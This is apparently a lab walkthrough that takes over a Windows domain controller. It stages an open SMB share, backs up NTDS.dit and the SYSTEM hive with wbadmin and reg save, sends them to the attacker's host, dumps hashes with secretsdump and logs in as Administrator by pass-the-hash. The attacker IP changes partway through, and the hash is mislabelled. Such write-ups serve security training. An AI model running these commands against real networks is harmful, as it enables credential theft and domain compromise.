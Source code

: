 Modify the contents of` /etc/samba/smb.conf` to the following:
```
[global]
map to guest = Bad User
server role = standalone server
usershare allow guests = yes
idmap config * : backend = tdb
interfaces = tun0
smb ports = 445
[smb]
comment = Samba
path = /tmp/
guest ok = yes
read only = no
browsable = yes
force user = smbuser
```

Create a new user that matches the user in the force user parameter.
```bash
adduser smbuser
```
Next, create a password for our newly created user.
```bash
smbpasswd -a smbuser
```

Then start the SMB demon with `sudo service smbd restart` . In our Win-Rm session we can mount the share:
```powershell
net use k: \\10.10.16.29\smb /user:smbuser smbuser
```

On the Win-Rm shell, we can backup the NTDS folder with wbadmin.
```powershell
echo "Y" | wbadmin start backup -backuptarget:\\10.10.16.29\smb -include:c:\windows\ntds
```

Next, retrieve the version of the backup.
```powershell
wbadmin get versions
```
We can now restore the NTDS.dit file, specifying the backup version.
```powershell
echo "Y" | wbadmin start recovery -version:10/11/2024-16:35 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```

We need to export the system hive too, and transfer both this and the NTDS.dit to our local
machine
```bash
reg save HKLM\SYSTEM C:\system.hive
```

Transfer over both NTDS.dit & system.hive file, and extract Administrator's LM hash using `impacket-secretsdump`

```bash
cp ntds.dit \\10.10.14.3\smb\NTDS.dit
cp system.hive \\10.10.14.3\smb\system.hive
```
```bash
impacket-secretsdump -ntds NTDS.dit -system system.hive LOCAL
```

Use wmiexec to log in as Administrator
```bash
impacket-wmiexec -hashes ':184fb5e5178480be64824d4cd53b99ee' Administrator@10.10.10.192
```


